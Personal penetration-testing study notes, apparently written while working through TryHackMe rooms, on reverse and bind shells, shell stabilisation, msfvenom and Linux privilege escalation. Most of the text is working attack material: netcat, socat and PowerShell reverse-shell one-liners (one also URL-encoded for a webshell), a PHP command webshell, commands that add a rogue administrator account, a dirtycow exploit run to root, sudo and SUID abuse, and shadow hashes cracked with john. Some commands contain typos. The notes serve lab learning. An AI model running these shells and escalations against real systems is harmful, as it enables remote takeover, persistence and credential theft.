


# PRIVILEGE ESCALATION 

## WHAT THE SHELL 

TOOLS 
- netcat
- socat
- metasploit -- multi/handler
> auxiliary/multi/handler 
- msfvenom

Aside from the tools we've already covered, there are some repositories of shells in many different languages 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Kali ( PreInstalled) - `/usr/share/webshells`

**TYPES OF SHELL**

- Reverse Shell 
> Reverse shells are when the target is forced to execute code that connects back to your computer 
- Bind Shell 
> Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.
> This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target

### TYPES OF SHELL 


**Reverse Shell**   
Nine times out of ten, this is what you'll be going for .


On the attacking machine:
```
sudo nc -lvnp 443
```

On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

**Bind Shell**  
Bind shells are less common, but still very useful.

On the target:
```
nc -lvnp <port> -e "cmd.exe"
```

On the attacking machine:
```
nc MACHINE_IP <port>
```

### NETCAT Shell Stabilisation 

**TECHNIQUE 1: python**  
The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

- The first thing to do is use **python -c 'import pty;pty.spawn("/bin/bash")'**, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace **python** with **python2** or **python3** as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
- Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
- Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.


**TECHNIQUE 2: rlwrap**

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap.`

To use rlwrap, we invoke a slightly different listener:
```
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.


**TECHNIQUE 3: Socat**   
> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true 
> binary 

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

### SOCAT 

**REVERSE SHELL**  
Listener
```
socat TCP-L:<port> - 
# equivalent to nc -lvnp <port>
```

On windows to connect back:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

On Linux 
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" 
```

**BIND SHELLS**
On Linux Target:
```
socat TCP-L:<PORT> EXEC:"bash -li"
```
On Windows 
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes 
```

on our attacking machine to connect to the waiting listener
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### SOCAT ENCRYPTED SHELLS 

```
# generate certificate 
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
# Merge both file to single pem file 
cat shell.key shell.crt > shell.pem

# Start socat listner 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
# verify=0 don't validate certificate if not properly signed by authority 
# NOTE that the certificate must be used on whichever device is listening.

# To CONNECT back
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash 
```

For Binding Shell
```
# TARGET 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# ATTACKER 
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:


**ANSWERS**  
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```
# SIMPLE 
socal OPENSSL:10.10.10.5:53,verify=0 EXEC:/bin/bash
# CORRECT ANSWER 
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
> return for clarification and better notes

### COMMON SHELL PAYLOADS 

In Kali linux `/usr/share/windows-resources/binaries`
```
-rwxr-xr-x  1 root root  66560 Jul 17  2019 whoami.exe
-rwxr-xr-x  1 root root 308736 Jul 17  2019 wget.exe
-rwxr-xr-x  1 root root 364544 Jul 17  2019 vncviewer.exe
-rwxr-xr-x  1 root root 704512 Jul 17  2019 radmin.exe
-rwxr-xr-x  1 root root 311296 Jul 17  2019 plink.exe
-rwxr-xr-x  1 root root  59392 Jul 17  2019 nc.exe
-rwxr-xr-x  1 root root  23552 Jul 17  2019 klogger.exe
-rwxr-xr-x  1 root root  53248 Jul 17  2019 exe2bat.exe
drwxr-xr-x  2 root root   4096 Aug 17 05:13 mbenum
drwxr-xr-x  2 root root   4096 Aug 17 05:13 fport
drwxr-xr-x  2 root root   4096 Aug 17 05:13 fgdump
drwxr-xr-x  2 root root   4096 Aug 17 05:13 enumplus
drwxr-xr-x  4 root root   4096 Aug 17 05:13 nbtenum
drwxr-xr-x  7 root root   4096 Aug 17 05:13 .
drwxr-xr-x 14 root root   4096 Oct 26 14:33 ..
```

For NETCAT reverse shell  this will always work for windows  
`nc <LOCAL-IP> <PORT> -e /bin/bash`

for linux netcat that doesn't have `-e` we will manually create it by this command.  
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- The command first creates a named pipe at `/tmp/f`. 
- It then starts a netcat listener, and connects the input of the listener to the output of the named pipe
- The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`
- sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

one-line powershell reverse shell
```powershell 
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

For more common reverse shells:
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp 

### MSFVENOM 

```
msfvenom -p <payload> <options>
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

**Staged vs Stageless**  
- Staged payloads are sent in two parts 
>  a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
- Stageless payloads are more common
> these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

**PAYLOAD NAMING CONVENTIONS** 

`<OS>/<arch>/<payload>`
Example
`linux/x86/shell_reverse_tcp`

For a 64bit Windows target, the arch would be specified as normal (x64). 

Stageless payloads are denoted with underscores `_`.   
The staged equivalent to this payload would be:
`shell/reverse_tcp`

As staged payloads are denoted with another forward slash `/`

**NOTES**
```
uname -m # to know architecture
> x86_64 # means 64 bit
```

**EXAMPLE PAYLOADS WITH COMPARISON**
```
    linux/x86/meterpreter/bind_tcp                                     Inject the mettle server payload (staged). Listen for a connection (Linux x86)
    linux/x86/meterpreter/reverse_tcp                                  Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter_reverse_tcp                                  Run the Meterpreter / Mettle server payload (stageless)

# / - means staged; two part payload will be listened by netcat or multi/handler
# _ - means stageless; will give you direct reverse shell 
```

**ANSWER THESE**
Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.
> msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=10.10.10.10 LPORT=4444 > win.exe

Which symbol is used to show that a shell is stageless?
> _

What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
> msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf LHOST=10.10.10.5 LPORT=443 > shell 


### METASPLOIT MULTI/HANDLER

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:
- msfconsole
- use multi/handler

Now we configure the listener
- options
- set PAYLOAD <payload>
> set PAYLOAD windows/x64/shell/reverse_tcp 
- set LHOST <YOUR IP>
> set LHOST 10.10.10.10
- set LPORT <CHOSEN PORT>
> set LPORT 4444
- exploit -j 
> makes it run as `job` in the background 


### WEBSHELLS 
> see https://tryhackme.com/room/uploadvulns for more info

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server.
As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
This will take a GET parameter in the URL and execute it on the system with shell_exec(). Essentially, what this means is that any commands we enter in the URL after ?cmd= will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.


As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` 
> Including the famouse Pentest Monkey php-reverse-shell
> https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

most generic written webshell are written for Linux webservers. they will not work on windows by default
When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

### ADDITIONAL 

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at /home/<user>/.ssh are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like Dirty C0w or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`
. These can be MD5 hashes or in plaintext, depending on the version.


Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.
```
net user <username> <password> /add
net localgroup administrators <username> /add
```

**IMPORTANT TAKE AWAY**
Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

 
### PRACTICE AND EXAMPLES 
> return to this for fun and proper documentation. 


**ANSWERS 1 & 3**
netcat stabilization of shell 


ATTACKER VM 
```
nc -lvnp 4444


# ONCE THE VIM MACHINE CONNECTED VIA REVERSE SHELL 
# you have to stabilize NC to have an interactive shell
import python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# CTRL + Z 
stty raw -echo;fg # required  apt install coreutils
```

VICTIM  VM 
```
nc 10.10.93.13 4444 -e /bin/bash 
```


**BIND SHELL PRACTICE for netcat without -e**
```
PORT=4444
mkfifo /tmp/f; nc -lvnp $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
**REVERSE SHELL PRACTICE for netcat without -e**
```
IP=10.10.93.13
PORT=4444
mkfifo /tmp/f; nc $IP $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```


**PENTEST MONKEY REV SHELL**
first change `/usr/share/webshells/php/php-reverse-shell.php` ip and port to your machine



FOR WINDOWS
https://www.revshells.com/
PHP IVAN SINCEK 

received by nc
```
net user netcat netcat /add
net localgroup administrators netcat /add
```

now RDP to the windows server 
```
rdesktop -u netcat -p netcat 10.10.110.82
```

now testing ncat from windows
```
from /usr/share/windows-resources/ncat
ncat 10.10.10.179 4242 -e cmd
```

```
php = nc 
nc = nc 
Staged = multi/handler
stageless = nc

```

 TEST CASES 
 Linux 
php pentestmonkey = nc 


---

## LINUX PRIVILEGE ESCALATION 

Why is it important?

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command
https://askubuntu.com/questions/350208/what-does-2-dev-null-mean


```
Find files:

find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
find / -type d -name config: find the directory named config under “/”
find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x: find executable files
find /home -user frank: find all files for user “frank” under “/home”
find / -mtime 10: find files that were modified in the last 10 days
find / -atime 10: find files that were accessed in the last 10 day
find / -cmin -60: find files changed within the last hour (60 minutes)
find / -amin -60: find files accesses within the last hour (60 minutes)
find / -size 50M: find files with a 50 MB size
```

note always add `2>/dev/null` so you can filter the errors 
```

find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
find / -perm -o w -type d 2>/dev/null: Find world-writeable folders
```

after entering 
clone this 
https://github.com/mzet-/linux-exploit-suggester and use it 

```
./les.sh > exploits.txt           
karen@wade7363:/tmp$ cat exploits.txt | grep "high" -B3 -A3
[+] [CVE-2016-5195] dirtycow

Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
Download URL: https://www.exploit-db.com/download/40611
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
--
[+] [CVE-2016-5195] dirtycow 2

Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
--
[+] [CVE-2015-1328] overlayfs

Details: http://seclists.org/oss-sec/2015/q2/717
Exposure: highly probable
Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
Download URL: https://www.exploit-db.com/download/37292


gcc exploit.c -o exploit
./exploit

karen@wade7363:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
# bash
root@wade7363:/tmp# find / -name flag1.txt 2>/dev/null
/home/matt/flag1.txt
root@wade7363:/tmp# cat /home/matt/flag1.txt
THM-28392872729920
```

### PRIVILEGE ESCALATION: SUDO 

check how many bin you can run with sudo:
```
sudo -l
```

then check here how to escalation the privilege with binary here: `https://gtfobins.github.io/`

example:
```
karen@ip-10-10-58-101:/tmp$ sudo -l
Matching Defaults entries for karen on ip-10-10-58-101:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-58-101:
  (ALL) NOPASSWD: /usr/bin/find
  (ALL) NOPASSWD: /usr/bin/less
  (ALL) NOPASSWD: /usr/bin/nano
karen@ip-10-10-58-101:/tmp$ sudo nano
```

I've chosen to escalate nano 
```
#https://gtfobins.github.io/gtfobins/nano/#sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo nano
^R^X
reset; sh 1>&0 2>&0

# I've gained root access
root@ip-10-10-58-101:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-58-101:/tmp# cat /home/ubuntu/flag2.txt
THM-402028394
```

Another consideration to take, is to just read the flag by sudo 
```
sudo nano /home/ubuntu/flag2.txt
```

Now get frank passwd hash
```
frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
# we only need this
# $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

```

### SUID

me=10.10.34.0  
target=10.10.145.190

```
karen@ip-10-10-145-190:/$ find / -type f -perm -04000 -ls 2>/dev/null
66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
3003     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
3375    419 -rwsr-xr-x   1 root     root              428240 May 26  2020 /snap/core/10185/usr/lib/openssh/ssh-keysign
6437    109 -rwsr-xr-x   1 root     root              110792 Oct  8  2020 /snap/core/10185/usr/lib/snapd/snap-confine
7615    386 -rwsr-xr--   1 root     dip               394984 Jul 23  2020 /snap/core/10185/usr/sbin/pppd
56     43 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /snap/core18/1885/bin/mount
65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/1885/bin/ping
81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/1885/bin/su
99     27 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /snap/core18/1885/bin/umount
1698     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
1700     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
1752     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
1816     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
1828     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
1919    146 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
2006     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
2314    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
7477     52 -rwsr-xr--   1 root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
13816    464 -rwsr-xr-x   1 root     root              473576 May 29  2020 /usr/lib/openssh/ssh-keysign
13661     24 -rwsr-xr-x   1 root     root               22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
7479     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
13676    128 -rwsr-xr-x   1 root     root              130152 Oct  8  2020 /usr/lib/snapd/snap-confine
1856     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
2300     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
1816    164 -rwsr-xr-x   1 root     root              166056 Jul 15  2020 /usr/bin/sudo
1634     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
1860     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
1859     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
1507     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount


karen@ip-10-10-145-190:/$ base64 "$LFILE" | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
...
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::


# Trying to add new user 
karen@ip-10-10-145-190:/$ openssl passwd -1 salt THM password1
$1$LCMt6sYj$eMjuju4VvP1UhDjXSn/l1.
$1$LWyLH.MM$dCKqWAkMvKYgrVkDMeR1Z.
$1$P1Nyji49$6sB6qmdPCXeCH4HSnupmS/

```


after getting /etc/passwd and /etc/shadow
```
┌──(root㉿kali)-[~/repo]
└─# unshadow passwd shadow > list.txt

┌──(root㉿kali)-[~/repo]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt list.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:11 DONE (2022-11-29 14:14) 0.2661g/s 1567p/s 2203c/s 2203C/s paramedic..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

# getting the flag 
gerryconway@ip-10-10-145-190:/$ find / -type f -perm -04000 -ls 2>/dev/null
1856     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
2300     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
1816    164 -rwsr-xr-x   1 root     root              166056 Jul 15  2020 /usr/bin/sudo
1634     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
1860     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
1859     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
1507     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount

gerryconway@ip-10-10-145-190:/$ find / -name flag3.txt 2>/dev/null
/home/ubuntu/flag3.txt
gerryconway@ip-10-10-145-190:/$ LFILE=/home/ubuntu/flag3.txt
